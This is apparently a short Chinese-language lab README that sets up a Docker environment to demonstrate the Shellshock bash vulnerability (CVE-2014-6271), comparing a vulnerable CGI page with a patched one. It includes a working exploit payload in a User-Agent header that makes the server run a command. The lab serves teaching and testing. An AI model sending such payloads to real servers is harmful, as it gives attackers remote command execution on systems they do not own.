


# Shellshock 破壳漏洞（CVE-2014-6271）

编译运行：

```
docker-compose up -d
```

服务启动后，有两个页面`http://your-ip:8080/victim.cgi`和`http://your-ip:8080/safe.cgi`。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。

将payload附在User-Agent中访问victim.cgi：

```
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```

命令成功被执行：



同样的数据包访问safe.cgi，不受影响：


